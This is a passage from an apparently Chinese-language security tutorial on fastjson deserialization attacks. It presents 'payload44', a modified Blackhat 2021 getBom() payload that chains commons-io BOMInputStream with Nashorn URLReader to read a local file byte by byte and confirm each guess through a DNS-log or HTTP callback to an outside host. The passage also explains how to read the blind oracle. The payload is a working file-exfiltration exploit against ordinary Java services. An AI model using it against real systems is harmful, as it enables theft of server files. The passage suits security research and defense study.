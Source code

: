 [![](assets/1706254407-0c23abec42c22a6113bab5536cbb563a.png)](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231021010244056.png)

极端场景：有一个接口，用`fastjson`解析了`json`，但不会反馈任何能够作为状态判断的标识，连异常报错的信息都没有。

那么此时该`payload`就可以派上用场了，**如果以上`poc`收到了`dnslog`响应，那么说明字节码比对失败**，也就是第一个字节的`int`值不等于我们填入的那个数字（比如这里的`98`，此时我们就得更改数字继续测试）；如果没收到，说明比对成功，继续测试即可。

### 4.2.3 blackhat2021-getBom() tyskill 师傅改版（几乎适配所有场景）

`payload44`：

```plain
{"abc":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"file:///C:/Users/whoami/Desktop/testtest.txt"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[98,]}]},"address":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":"http://192.168.161.4:8085/"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"$ref":"$.abc.BOM[0]"}]},"xxx":{"$ref":"$.address.BOM[0]"}}
```

该`payload`是浅蓝师傅的`payload`的改版，主要区别在于这个是`dnslog`或者`http`服务有响应说明字节码比对成功，和浅蓝的那个是反着来的。
